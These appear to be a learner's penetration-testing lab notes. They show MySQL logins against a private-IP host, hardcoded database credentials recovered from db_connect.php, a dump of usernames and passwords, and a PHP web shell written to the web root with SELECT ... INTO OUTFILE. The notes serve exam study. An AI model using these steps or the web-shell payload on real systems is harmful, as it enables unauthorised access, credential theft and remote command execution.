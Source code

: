 Now will try to login and see what data we can get from it 
```
mysql -u <username> -p -h 192.168.100.1
```

```
mysql -u admin -p -h 192.168.100.1
```

```
DBManagerLogin!
```

so this is not working which means we have to do osint in the file to get the pasword that might work

db_connect.php looks fishy
![[Pasted image 20240817172018.png]]


BINGOOOOOOOOOOOOOOO
```
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```


```
mysql -u admin -p -h 192.168.100.1
```

```
!123SecureAdminDashboard321!
```


>[! important] Important

This happened here and might happened in the exam as well. I was not able to get the mysql shell in the dumb shell and after i changed it into interactive shell i was able to get it.

Taking help of Chat GPT

![[Pasted image 20240817224657.png]]

```
select username,password from users limit 10;
```

```
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA      
```


```
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
![[Pasted image 20240817230257.png]]

```

```